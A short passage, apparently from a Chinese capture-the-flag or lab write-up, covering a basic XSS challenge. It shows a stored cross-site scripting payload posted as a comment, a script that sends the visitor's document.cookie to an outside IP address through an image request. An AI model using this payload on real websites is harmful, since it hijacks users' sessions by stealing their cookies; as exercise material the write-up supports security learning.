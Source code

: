 成功拿到key
![upload successful](./images/pasted-898.png)


# 34224 基础题目四: XSS漏洞

![upload successful](./images/pasted-899.png)

直接留言：
```
<script>
document.write('<img src=\"http://11.1.12.155:9098/?'+document.cookie+'\"/>')
</script>
```
